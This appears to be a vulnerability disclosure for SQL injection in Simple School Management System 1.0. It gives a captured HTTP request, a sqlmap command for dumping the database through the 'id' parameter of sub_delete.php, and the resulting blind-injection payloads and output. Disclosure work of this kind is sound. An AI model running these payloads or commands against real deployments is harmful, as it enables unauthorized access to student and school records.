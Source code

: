 # Simple School Managment System - SQL Injection - 4
+ **Exploit Title:** Simple School Managment System - SQL Injection - 4
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'id' parameter at "School/sub_delete.php?id=5 ". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Login in
+ Click the Subject button
+ Then click delete-sunject button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /School/sub_delete.php?id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/add_sub.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: closee
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (2699=2699) THEN 5 ELSE (SELECT 3379 UNION SELECT 5775) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 9317 FROM (SELECT(SLEEP(5)))gyNy)
---
[05:56:07] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[05:56:07] [INFO] fetching current database
[05:56:07] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[05:56:07] [INFO] retrieved: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 140916](https://github.com/tubakvgc/CVEs/assets/74067343/3a6be269-daf7-4f35-afb9-18e42e982657)
